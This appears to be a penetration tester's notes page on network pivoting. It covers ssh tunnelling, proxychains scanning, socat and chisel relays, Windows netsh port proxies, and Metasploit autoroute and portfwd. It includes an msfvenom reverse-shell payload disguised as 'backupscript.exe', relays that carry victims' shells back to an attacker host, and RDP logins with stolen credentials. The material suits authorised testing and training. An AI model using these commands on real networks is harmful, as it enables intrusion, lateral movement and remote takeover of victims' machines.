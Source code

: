 - **tags:** #pivoting #metasploit 
- -----------
# One-liner definition
Pivoting allows us to delve deeper into the networks accessing previously unreachable environments.
# Pivoting with ssh
## ssh local port forwarding
With the `-L` switch we can specify which local port we would like to forward all its requests to a remote machine.
```bash
ssh -L <localport>:<targets interface>:<remote port> <username>@<hostname> 
```
Let's say we've got the ssh credentials of a machine that is running a [[MySQL|MariaDB]] server closed to the public. We can take advantage of [[ssh]] port forwarding so we can later start enumerating the service and execute a remote payload. 
![[LocalPortForwarding.png]]
## ssh dynamic port forwarding
```bash
ssh -D 9050 <username>@<hostname> -N &
```
With dynamic port forwarding, we can send packets to a remote network via a pivot host.The attack host starts the SSH client and requests the [[SSH]] server to allow it to send some *TCP* data over the ssh socket. The SSH server responds with an acknowledgment, and the SSH client then starts listening on `localhost:9050`. Using [[proxychains]] we are going to redirect our traffic to port *9050* through a `SOCKS` connection.

- *Note:* **SOCKS** is an Internet protocol that exchanges network packets between a client and server through a proxy server. SOCKS5 optionally provides authentication so only authorized users may access a server. Practically, a SOCKS server *proxies* *TCP* connections to an arbitrary IP address, and provides a means for *UDP* packets to be forwarded.

Once we setup the relay for all our traffic, we can start scanning new reachable targets.
```bash
proxychains nmap -v -Pn -sT <targetIP>
```
**Important:** Only full *TCP* scans will work when pivoting using [[proxychains]].
## ssh reverse port forwarding
Let's imagine that during our scan in a foreign network (via a pivot host) we've found a target vulnerable to RCE and we want to establish a reverse shell with the target. Our first step would lay on the creation of the payload (for this example I'll be using [[msfvenom]] to generate a *meterpreter*).
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<InternalsPivotIP> -f exe -o backupscript.exe LPORT=8080
```
In this case our **listener's IP** will correspond to the *pivot's internal IP*. The second step is to find a valid vector to transfer the payload to the victim's machine. Next we need to **redirect** the traffic that'll be sent from the **victim**'s IP on port *8080* to our local machine; one can achieve such thing via [[ssh]] with the following command:
```bash
ssh -R <pivotIP>:8080:0.0.0.0:8000 <username>@<hostname> -Nv #Reversing all traffic to our local port 8000
```
Lastly, all is left is to setup the *meterpreter's* listener on `msfconsole` and execute the payload on the victim.
# Socat Redirection
[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.
## Gaining a reverse shell with socat
```bash
#create a relay pipe on the pivot
socat TCP4-LISTEN:4444,fork TCP4:<LHOST>:<LPORT> 
```
## Bind Shell Using Socat
```bash
#on victim start listener offering shell
#create a relay pipe on the pivot
socat TCP4_LISTEN:4444,fork TCP4:<RHOST>:<RPORT>
```
# Pivoting with chisel
```bash
#on attacker
chisel server --reverse -p 1234
#on pivot brings all ports
chisel client <LHOST>:1234 R:socks
```
## Chaining Several Pivots
Important, order hosts from furthest to nearest on the `/etc/proxychains.conf` file and make sure *Dynamic Chains* is ON.
```bash
# on second victim
chisel client <PIVOT INTERNAL ADDRESS>:2222 R:1081:socks

# on middle victim
socat tcp4-listen:2222,fork tcp4:<LHOST>:1234
```
# Port Forwarding on Windows Hosts
To enable local port forwarding on a Windows Pivot we are going to take advantage of the *netsh.exe* batch command:
```shell
# add portfwd to rdp to Unreachable Host
netsh.exe interface portproxy add v4tov4 listenaddress=<External Address of Pivot> listenport=8080 connectaddress=<Unreachable Host> connectport=3389

# check that settings are correct
netsh.exe interface portproxy show v4tov4

# now we can rdp from our attacker's machine
xfreerdp /v:<External Address of Pivot>:8080 /u:'Username' /p:'Password'
```
# Pivoting with Metasploit
Now let us consider a scenario where we have our *Meterpreter* shell access on the the pivot host, and we want to perform enumeration scans through the pivot host, but taking advantage of the conveniences that *Meterpreter* sessions bring us.
## Setup SOCKS Proxy and Autoroute traffic
Background the *meterpreter* session and look for the `auxiliary/server/socks_proxy` module. Setup the options, I normally use port *9050* on my [[proxychains]] config file for proxying my traffic with *SOCKS*.
```bash
set SRVHOST 127.0.0.1
set SRVPORT 9050
set version 4a #use socks4
```
Check that the module is running in the background issuing the `jobs` command. Finally to route all traffic through our meterpreter session run the *autoroute* script.
```bash
sessions list
sessions -i 1 #choose the number of the session you are interested on using
run autoroute -s 172.16.5.0/23 #in your case define the subnnet you are interested on routing your traffic to
```
To ensure that the route has been successfully added  type: `run autoroute -p`. If there were no mistakes made, now we should be able to use [[nmap]] combined with [[proxychains]] to start enumerating the new reachable hosts.
```bash
proxychains nmap -sT -n -Pn --top-ports 100 <IPTarget>
```
## PortForwarding using a meterpreter session
Let's suppose than on the previous [[nmap]] scan we found that port *3389* is open presumably running an [[Remote Desktop Protocol|RDP]] server. In this case we would like to forward the victim's [[Remote Desktop Protocol|RDP]] port to a local port of our choosing. Achieving such things with a *meterpreter* session is quite easy.
```bash
portfwd -h #list all available options
portfwd add -l 3389 -p 3389 -r <IPTarget> #binding local port 3389 with the victim's port
portfwd list #list forwarded/reversed ports
```
Now, if an attacker had valid credentials, he could easily connect to the *RDP* server using [[Remote Desktop Protocol]]
```bash
xfreerdp /u:<username> /p:<password> /v:localhost
```
## Reverse PortForwarding using a meterpreter session
Lastly it's now time to gain a *meterpreter* shell with the remote victim. After generating our payload and transferring it over to the host we establish a reverse port forwarding rule.
```
portfwd add -R -l <listeningPort> -p <portDesignedonPayload> -L <attackerIP> 
```
Before executing the payload, *background* the current *meterpreter session* and start a new `exploit/multi/handler`, listening on the port and network interface previously specified.


